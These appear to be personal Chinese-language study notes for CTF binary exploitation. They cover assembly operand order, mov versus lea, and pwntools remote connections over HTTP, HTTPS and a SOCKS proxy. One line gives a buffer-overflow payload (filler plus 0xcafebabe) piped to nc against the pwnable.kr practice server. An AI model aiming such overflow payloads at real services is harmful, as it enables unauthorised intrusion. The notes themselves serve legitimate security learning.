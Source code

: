 * pwn
** 汇编相关
*** mov 的方向
    INTEL 汇编语法第一个操作数表示目的操作数,第二个表示源操作数,赋值方向从右向左
    mov eax , ebx  // eax = ebx
    AT&T 反过来
    movl %ebx , %eax // eax = ebx
    记忆 : linux 字母高度越来越低,所以往右边移 
*** mov 和 lea 的区别
    mov ecx , [ eax + 0x30 ] 表示把 eax + 0x30 这个值所表示的地址中的数据赋值给 ecx
    lea ecx , [ eax + 0x30 ] 表示把 eax + 0x30 这个值赋给 ecx , 即 ecx = eax + 0x30
** (python -c "print 'a'*52 + '\xbe\xba\xfe\xca'" ; cat ) | nc pwnable.kr 9000
   注意管道前边还有个 cat 
** http request
*** basic
>>> r = remote( 'my.csdn.net' , 80 )
[x] Opening connection to my.csdn.net on port 80
[x] Opening connection to my.csdn.net on port 80: Trying 101.201.170.152
[+] Opening connection to my.csdn.net on port 80: Done
>>> r.send( 'GET /echofocus HTTP/1.1\r\nHost: my.csdn.net\r\n\r\n' )
>>> str = r.recv( 30000 )
>>> str.find( '127' )
3875
>>> print str[3875:3875+21]
127.000.000.001:48523
>>> r.close( )
[*] Closed connection to my.csdn.net port 80
*** https request
>>> r = remote( 'baidu.com' , 443 , ssl = True )
[x] Opening connection to baidu.com on port 443
[x] Opening connection to baidu.com on port 443: Trying 180.149.132.47
[+] Opening connection to baidu.com on port 443: Done
>>> r.send( 'GET / HTTP/1.1\r\n\r\n' )
>>> r.recvn( 100 )
'HTTP/1.1 302 Moved Temporarily\r\nServer: bfe/1.0.8.18\r\nDate: Wed, 07 Dec 2016 07:06:14 GMT\r\nContent-T'
>>> r.close( )
[*] Closed connection to baidu.com port 443
*** http/https request via proxy
**** no proxy
>>> from pwn import *
>>> r = remote( 'google.com' , 443 , ssl = True )
[x] Opening connection to google.com on port 443
[x] Opening connection to google.com on port 443: Trying 216.58.196.238
[x] Opening connection to google.com on port 443: Trying 2404:6800:400a:806::200e
[-] Opening connection to google.com on port 443: Failed
[ERROR] Could not connect to google.com on port 443
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "pwnlib/tubes/remote.py", line 64, in __init__
    self.sock   = self._connect(fam, typ)
  File "pwnlib/tubes/remote.py", line 136, in _connect
    self.error("Could not connect to %s on port %d" % (self.rhost, self.rport))
  File "pwnlib/log.py", line 414, in error
    raise PwnlibException(message % args)
pwnlib.exception.PwnlibException: Could not connect to google.com on port 443
**** proxy( default : socks.SOCKS4 1080 port )
>>> context.proxy = '172.20.134.114'
>>> r = remote( 'google.com' , 443 , ssl = True )
[x] Opening connection to google.com on port 443
[x] Opening connection to google.com on port 443: Trying 216.58.196.238
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "pwnlib/tubes/remote.py", line 64, in __init__
    self.sock   = self._connect(fam, typ)
  File "pwnlib/tubes/remote.py", line 130, in _connect
    sock.connect(sockaddr)
  File "/usr/local/lib/python2.7/dist-packages/socks.py", line 773, in connect
    raise ProxyConnectionError(msg, error)
socks.ProxyConnectionError: Error connecting to SOCKS5 proxy 172.20.134.114:1080: [Errno 111] Connection refused
**** proxy
>>> context.proxy = ( socks.SOCKS5 , '172.20.134.114' , 2333 )
>>> r = remote( 'google.com' , 443 , ssl = True )
[x] Opening connection to google.com on port 443
[x] Opening connection to google.com on port 443: Trying 216.58.196.238
[+] Opening connection to google.com on port 443: Done
>>> r.send( 'GET / HTTP/1.1\r\n' )
>>> r.send( '\r\n' )
>>> r.recvn( 100 )
'HTTP/1.1 302 Found\r\nLocation: http://www.google.com.hk/url?sa=p&hl=zh-CN&pref=hkredirect&pval=yes&q='
>>>
